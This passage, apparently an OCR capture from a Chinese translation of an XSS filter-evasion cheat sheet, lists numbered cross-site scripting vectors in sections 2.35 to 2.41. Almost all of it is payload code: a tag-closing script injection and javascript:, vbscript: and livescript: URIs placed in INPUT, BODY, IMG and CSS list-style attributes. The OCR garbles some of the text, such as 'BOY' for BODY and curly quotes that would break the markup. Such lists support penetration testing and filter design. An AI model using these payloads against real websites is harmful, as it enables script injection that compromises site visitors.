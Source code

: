 这是一个简单的闭合<TITLE>标签的XSS攻击向量，可以包含恶意的跨站脚本攻击:


</TITLE><SCRIPT>alert(“XSS”);</SCRIPT>




### 2.35.    INPUT image


<INPUT TYPE=”IMAGE” SRC=”javascript:alert(‘XSS’);”>




### 2.36.    BODY image


<BOY BACKGROUND=”javascript:alert(‘XSS’)”>




### 2.37.    IMG Dynsrc


<IMG DYNSRC=”javascript:alert(‘XSS’)”>


 

### 2.38.    IMG lowsrc


<IMG LOWSRC=”javascript:alert(‘XSS’)”>




### 2.39.    List-style-image

处理嵌入的图片列表是很麻烦的问题。由于JavaScript指令的原因只能在IE渲染引擎下有效。不是一个特别有用的跨站脚本攻击向量:


<STYLE>li {list-style-image: url(“javascript:alert(‘XSS’)”);}</STYLE><UL><LI>XSS</br>




### 2.40.    图片中引用VBscript


<IMG SRC=’vbscript:msgbox(“XSS”)’>




### 2.41.    Livescript (仅限旧版本Netscape)


<IMG SRC=”livescript:[code]">


 
